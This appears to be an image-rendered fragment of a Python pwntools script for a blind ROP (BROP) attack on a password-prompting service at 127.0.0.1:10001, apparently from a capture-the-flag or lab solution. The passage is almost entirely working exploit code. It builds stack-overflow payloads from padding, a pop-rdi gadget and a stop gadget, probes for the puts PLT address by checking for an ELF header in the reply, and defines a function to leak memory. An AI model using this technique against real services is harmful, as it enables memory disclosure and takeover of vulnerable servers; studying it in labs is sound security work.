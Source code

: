 ```python
        flag1 = False
        flag2 = False
        sh = remote('127.0.0.1', 10001)
        sh.recvuntil(b'password?\n')
        payload = length*b'a' + p64(pop_rdi_ret) + \
            p64(0x400000) + p64(addr) + p64(stop_gadget)
        sh.sendline(payload)
        try:
            content1 = sh.recv(timeout=2)
            if content1.startswith(b'\x7fELF'):
                flag1 = True
        except EOFError:
            flag1 = False
        sh.close()
        sh = remote('127.0.0.1', 10001)
        sh.recvuntil(b'password?\n')
        payload = length*b'a' + p64(pop_rdi_ret) + \
            p64(0x400000) + p64(addr+6) + p64(stop_gadget)
        sh.sendline(payload)
        try:
            content2 = sh.recv(timeout=2)
            info(b'content2:' + content2)
            if content2.startswith(b'\x7fELF'):
                flag2 = True
        except EOFError:
            flag2 = False
        info('flag1:{}, flag2:{}'.format(flag1, flag2))
        if (flag1 & flag2):
            success('get the start of puts_plt addr:' + hex(addr))
            return addr
        else:
            addr += 1


def leak(length, pop_rdi_ret, puts_plt, leak_addr, stop_gadget):
    sh = remote('127.0.0.1', 10001)
    payload = length*b'a' + p64(pop_rdi_ret) + \
        p64(leak_addr) + p64(puts_plt) + p64(stop_gadget)
    sh.recvuntil('password?\n')
    sh.sendline(payload)
    try:
        data = sh.recv()
        sh.close()
        if b'WelCome' in data:
            data = data[:data.index(b"\nWelCome")]
        else:
            data = data
        if data == b"":
            data = b'\x00'
        return data
    except Exception:
        sh.close()
        info('failure in {}'.format(leak_addr))
        return None


if __name__ == '__main__':

    # length = get_stack_length()
    length = 72
    stop_gadget = 0x4006b6  # return to the start
    # stop_gadget = get_stop_addr(length)
    info('start to find brop gadgets:')
```